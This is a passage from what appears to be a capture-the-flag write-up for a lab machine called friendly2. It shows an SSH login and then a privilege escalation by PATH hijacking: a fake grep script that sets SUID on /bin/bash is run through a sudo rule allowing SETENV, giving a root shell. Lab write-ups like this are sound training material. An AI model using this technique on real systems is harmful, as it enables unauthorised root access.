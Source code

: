 ```shell
ssh gh0st@192.168.1.87 -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux friendly2 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gh0st@friendly2:~$ 
```

## Privilage Escalation

Once in as **gh0st** we can run security.sh as anyone without providing password and setting and environment variable at the time we run the script
```shell
gh0st@friendly2:~$ sudo -l
Matching Defaults entries for gh0st on friendly2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gh0st may run the following commands on friendly2:
    (ALL : ALL) SETENV: NOPASSWD: /opt/security.sh
```

This script is using commands such `grep` or `tr` without using the absolute path so we can try **PATH Hijacking** here. So I make a file called `grep` in _/tmp_ 

```shell
gh0st@friendly2:/tmp$ cat grep
#!/bin/bash

chmod +s /bin/bash
```


Now we run the script adding the _/tmp_ directory to the PATH variable:
```shell
gh0st@friendly2:/tmp$ sudo PATH=/tmp:$PATH /opt/security.sh 
Enter the string to encode:
das
The string cannot contain special characters.
gh0st@friendly2:/tmp$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

```shell
gh0st@friendly2:/tmp$ bash -p
bash-5.1# id
uid=1001(gh0st) gid=1001(gh0st) euid=0(root) egid=0(root) groups=0(root),1001(gh0st)
bash-5.1# 
```
And now we're root 
```shell
bash-5.1# cat /root/root.txt 
Not yet! Try to find root.txt.


Hint: ...
```
